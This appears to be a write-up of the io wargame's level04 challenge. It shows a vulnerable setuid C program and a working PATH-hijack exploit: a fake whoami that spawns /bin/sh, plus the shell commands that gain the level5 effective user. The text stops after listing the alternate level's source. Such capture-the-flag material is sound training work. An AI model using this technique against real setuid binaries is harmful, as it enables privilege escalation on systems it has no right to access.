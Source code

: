 ## First look

```sh
level4@io:/levels$ ls -la level04*
-r-sr-x--- 1 level5 level4 5159 Dec 18  2013 level04
-r-sr-x--- 1 level5 level4 5180 Sep 24  2014 level04_alt
-r-------- 1 level4 level4  120 Sep 24  2014 level04_alt.c
-r-------- 1 level4 level4  245 Dec 18  2013 level04.c
```
There are 2 ways to go level5.

## level04.c
```C
//writen by bla
#include <stdlib.h>
#include <stdio.h>
int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);
        return 0;
}
```
In the above code, it is susceptible to an attack that changes the $PATH environment variable because it is not using an absolute path to call whoami. 

```sh
level4@io:/tmp/t$ echo $PATH
/usr/local/radare/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
The OS will look at $PATH for list of directories to search the binary for in a left to right order. When it finds a binary that has the requested name, it will execute that binary.

We can trick the OS into running our own `whoami` program that spawn a shell. As long as our directory comes before the actual location of `whoami`, our binary will be run instead.

```C
#include <stdlib.h>
int main(){
    system("/bin/sh");
    return 0;
}
```

```sh
level4@io:/levels$ mkdir /tmp/t;
```
We can make a directory for ourselves to put the above C source code.
```sh
level4@io:/tmp/t$ gcc whoami.c -o whoami
```
Next, compile the program with the same name as whoami.
```sh
level4@io:/tmp/t$ PATH=.:$PATH
level4@io:/tmp/t$ /levels/level04
sh-4.3$ id
Welcome uid=1004(level4) gid=1004(level4) euid=1005(level5) groups=1004(level4),1029(nosu)
```
We have prepending a "." in the $PATH. The OS will start searching from current directory first for a `whoami`. We can see that our euid is level5.

## level04_alt.c
```C
//written by bla
#include <stdlib.h>
int main(){
	setresuid(geteuid(), geteuid(), geteuid());
	system("/usr/bin/id");
}
```
